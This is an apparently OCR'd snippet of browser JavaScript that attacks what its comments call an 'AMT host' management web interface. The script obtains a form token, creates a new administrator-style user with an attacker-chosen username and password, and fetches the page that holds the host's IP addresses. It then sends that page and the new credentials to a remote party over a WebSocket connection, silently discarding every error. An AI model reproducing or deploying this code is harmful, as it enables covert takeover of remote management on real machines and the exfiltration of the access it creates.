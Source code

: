```html
        return fetch("/user.htm", {
          method: "POST",
          headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
          },
          body: [
            "t=" + encodeURIComponent(token),
            "UserSubmit=++++New...++"
          ].join('&') // manually construct the HTTP POST Body I guess.
        });
    })
    .then(function (res) {
      return res.text();
    })
    .then(function (user) {
         const token = getToken(user);
        return fetch("/userform", {
          method: "POST",
          headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
          },
          body: [
            "t=" + encodeURIComponent(token),
            "UserName=" + username, 
            "UserPwd=" + password, 
            "UserPwd2=" + password,
            "OldUserName=",
            "command=1",
            "UserSubmit=Submit"
          ].join('&') // manually construct the HTTP POST Body I guess.
        });
    })
    .then(function () {
      // fetch info to send IP address info to remote
      return fetchInfo();
    })
    .then(function (infoHtml) {
      // Send data on newly created Admin User to Remote
      // via WebSocket Connection.
      CONF.CONN.send(JSON.stringify({ 
        info: infoHtml, // send entire HTML document to minimize client side parsing code.
        username: username, 
        password: password, 
        code: 2 
      }));
    })
    .catch(function (ex) {
        // eat all errors
    })
  }

  // This function fetches the primary authenticated web page
  // Included on this page are the IPv4/6 addresses for the AMT host
  // Useful in instances where traffic is proxied.
  function fetchInfo () {
    return new Promise(function (resolve) { 
      // GET Request to 'index.htm', which has all the IP info.
      return fetch("/index.htm")
      .then(function (res) {
        return resolve(res.text());
      });
    });
  }
```